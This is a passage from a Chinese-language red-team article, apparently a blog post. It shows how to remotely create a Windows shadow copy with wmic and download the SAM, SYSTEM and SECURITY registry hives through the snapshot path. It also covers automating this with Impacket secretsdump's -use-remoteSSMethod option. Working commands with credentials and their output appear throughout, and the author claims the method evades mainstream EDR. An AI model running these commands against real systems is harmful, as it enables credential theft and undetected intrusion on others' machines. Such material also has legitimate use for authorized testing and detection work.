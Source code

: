 以下为手动利用该技术的示例。  
  
首先，需要远程创建 Shadow Snapshot  
（卷影副本），可通过 wmic  
 命令实现。  
```
C:\Users\peter>wmic /node:192.168.24.153 /user:peter /password:[***] shadowcopy call create Volume='C:\'
Executing (Win32_ShadowCopy)->create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ReturnValue = 0;
        ShadowID = "{037BE7D1-2915-422A-B961-13065D469BE7}";
};


C:\Users\peter>
```  
  
在远程系统上，你会看到卷影副本（Shadow Snapshot）已被成功创建。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCPEja4wh9nnkjmk3s2OG2SH5rGKGTz4ZYhicYqnLJK065SYuXiaVluQayInsQkEicd5H8t6fVFByibt3Q/640?wx_fmt=png&from=appmsg "")  
  
此时，可以通过远程方式访问该卷影副本。以本例为例，快照创建时间为 2025 年 6 月 3 日 9:02:45 AM  
（UTC 时间为 16:02:45），因此远程访问路径应为 @GMT-2025.06.03-16.02.45。请注意，路径中的时间必须使用 UTC 格式。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCPEja4wh9nnkjmk3s2OG2SHlefVeTjzSWUaTvGLujhzdnnTRVicibzMicTKX1y8Xib3fuYSO8oFjI2wHw/640?wx_fmt=png&from=appmsg "")  
  
通过该路径，可以直接下载 SAM、SYSTEM 等注册表 hive 文件。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCPEja4wh9nnkjmk3s2OG2SHOUywU6axn7EoSwAMp2gZwicxj0RH2xc9woDibnkRIjgxRn5RNRNgiatvQ/640?wx_fmt=png&from=appmsg "")  
## 自动化（AUTOMATION）  
  
为实现自动化，Impacket  
 的 secretsdump  
 工具在 2024 年 5 月合并了新选项。  
- https://github.com/fortra/impacket/pull/1719  
  
本质上，Impacket 用 Python 实现了同样的流程：远程通过 WMI 创建 Shadow Snapshot（卷影副本），执行 create 方法，然后通过 SMB 下载 SAM/SYSTEM/SECURITY，最后再通过 WMI 删除该 Shadow Snapshot。  
  
使用方法很简单，只需在 secretsdump  
 命令中添加 **–use-remoteSSMethod**  
 参数。例如：  
- **impacket-secretsdump -use-remoteSSMethod “./Admin:1234@192.168.1.161”**  
  
远程卷（remote volume）可通过 **–remoteSS-remote-volume**  
 参数指定（默认为‘C:\’），本地保存 SAM/SYSTEM/SECURITY 的路径可通过 **–remoteSS-local-path**  
 指定（默认为当前目录‘.’）。  
  
自该功能合并进 secretsdump  
 以来，我们在攻防演练中多次使用，未被主流安全产品或顶级 EDR 检测到。  
  